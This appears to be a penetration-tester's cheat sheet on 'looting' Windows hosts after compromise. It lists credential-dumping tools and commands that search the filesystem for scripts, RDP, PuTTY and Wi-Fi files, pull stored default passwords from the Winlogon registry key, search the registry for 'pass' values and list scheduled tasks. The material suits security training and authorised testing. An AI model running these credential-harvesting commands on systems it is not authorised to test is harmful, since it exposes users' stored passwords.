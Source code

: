 ## LOOTING

---
#### TOOL
- WinPEAS
- Lazagne
- SessionGopher

---
#### SEARCH A FILE
```powershell
cd c:/
# LIST FILE / RECURSE / INCLUDE HIDDEN
dir /b/s/a *.bat
dir /b/s/a *.xml
dir /b/s/a *.ps1
...

Get-ChildItem -Recurse -Force -Include *.rdp
Get-ChildItem -Recurse -Force -Include *.xml
Get-ChildItem -Recurse -Force -Include *putty*
Get-ChildItem -Recurse -Force -Include *wifi*
...
# Check the RecycleBin to look for credentials inside it
```

---
#### WINLOGON CREDENTIALS
```powershell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"

#OTHER WAY
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultDomainName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultUserName
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v AltDefaultPassword
```

---
#### REGISTRY CREDENTIALS
```
reg query HKLM /f pass /t REG_SZ /s
```

---
#### CHECK TASKS
```
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v | select-string -pattern "exe"
```

---